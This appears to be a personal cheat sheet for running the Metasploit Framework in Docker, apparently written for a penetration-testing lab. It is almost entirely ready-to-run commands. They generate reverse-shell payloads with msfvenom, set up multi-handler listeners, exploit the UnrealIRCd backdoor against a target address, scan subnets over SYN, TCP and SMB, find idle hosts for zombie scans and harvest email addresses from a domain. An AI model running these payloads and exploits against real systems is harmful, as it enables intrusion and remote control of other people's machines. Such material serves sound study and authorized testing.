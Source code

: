 #### 1. About

- URL: `github.com/rapid7/metasploit-framework`
- metasploit framework


#### 2. Setup and run

Install:
```
# docker pull metasploitframework/metasploit-framework
# docker tag metasploitframework/metasploit-framework:latest msf
```

Expose ports on specific IP address and run:
```
# ip=`ip a | grep tun0 | grep inet | awk '{print $2}' | sed 's/\/.*//g'`
# docker run --name msf -e ip=$ip -v /tmp:/tmp -p 4000-4010:4000-4010 -d --rm -it msf bash
```

Aliases (`~/.bash_aliases`, `~/.profile`, or `~/.zsh/aliasrc`):
```
# f="$HOME/.zsh/aliasrc"
# [[ -z `grep masfvenom $f` ]] && echo 'alias msfvenom="docker exec -it msf /usr/src/metasploit-framework/msfvenom"' >> $f
# [[ -z `grep msfconsole $f` ]] && echo 'alias msfconsole="docker exec -it msf /usr/src/metasploit-framework/msfconsole"' >> $f
```


#### 3. Example 1
```
# msfvenom -p php/meterpreter/reverse_tcp LHOST=$ip LPORT=4001 R -o /tmp/msf/payload.php
# cat << EOF > /tmp/shell.rc
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/shell.rc
```


#### 4. Example 2
```
# cat << EOF > /tmp/exploit.rc
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.10.10.11
set RPORT 6697
set PAYLOAD cmd/unix/reverse
set LHOST 10.10.10.10
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/exploit.rc
```


#### 5. Example 3 (custom exploit)
```
# docker run --name msf -v /tmp:/tmp -p 4000-4010:4000-4010 -d --rm -it msf
# msfvenom -p windows/shell_reverse_tcp LHOST=172.16.201.160 LPORT=4001 EXITFUNC=thread -b '\x00\x0a\x0d' -f python -v buffer
# cat << EOF > /tmp/handler.rc
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set EXITFUNC thread
set LHOST 10.10.10.11
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/handler.rc
```


#### 6. Multi-handler and listeners for both x86 / x64

a) Payloads
```
# msfvenom -p windows/x64/shell/reverse_tcp -f raw -o /tmp/x64_rev_shell.exe EXITFUNC=thread LHOST=10.11.0.232 LPORT=6666
# msfvenom -p windows/shell/reverse_tcp -f raw -o /tmp/x86_rev_shell.exe EXITFUNC=thread LHOST=10.11.0.232 LPORT=5555
```

b) Listeners:
```
# cat << EOF > handler.cfg
use exploit/multi/handler
set LHOST 10.10.10.11
set ExitOnSession false
set EXITFUNC thread
set PAYLOAD windows/x64/shell/reverse_tcp
set LPORT 6666
exploit -j
set PAYLOAD windows/shell/reverse_tcp
set LPORT 5555
exploit -j
EOF
# /etc/init.d/postgresql start
# msfconsole -qr handler.cfg
```


#### 7. Port scanning

a) SYN scan
```
# q="use auxiliary/scanner/portscan/syn; \
   set INTERFACE tap0; \
   set PORTS 80; \
   set RHOSTS 10.11.1.*; \
   set THREADS 10; \
   run; exit y \
"
# msfconsole -qx "$q"
```

b) TCP scan
```
# q="use auxiliary/scanner/portscan/tcp; \
   set RHOSTS 10.11.1.*; \
   set PORTS 80; \
   set THREADS 5; \
   run; exit y \
"
# msfconsole -qx "$q"
```

c) SMB scan
```
# q="use auxiliary/scanner/smb/smb_version; \
   set RHOSTS 10.11.1.*; \
   set THREADS 11; \
   run; exit y \
"
# msfconsole -qx "$q"
```

d) Find idle boxes for zobie scan
```
# q="use auxiliary/scanner/ip/ipidseq; \
   set RHOSTS 10.11.1.*; \
   set THREADS 11; \
   run; exit y \
"
# msfconsole -qx "$q"
```


#### 8. Enumeration

a) Find emails on domain
```
# domain='example.com'
# q="use auxiliary/gather/search_email_collector; set DOMAIN $domain; run; exit y"
# msfconsole -qx "$q" | grep -oE "[-0-9a-zA-Z_]{1,}@$domain"
email@example.com
user@example.com
```


#### 9. MSF Database Cache
```
# systemctl start postgresql
# msfdb init
msf > db_status
msf > db_rebuild_cache
```
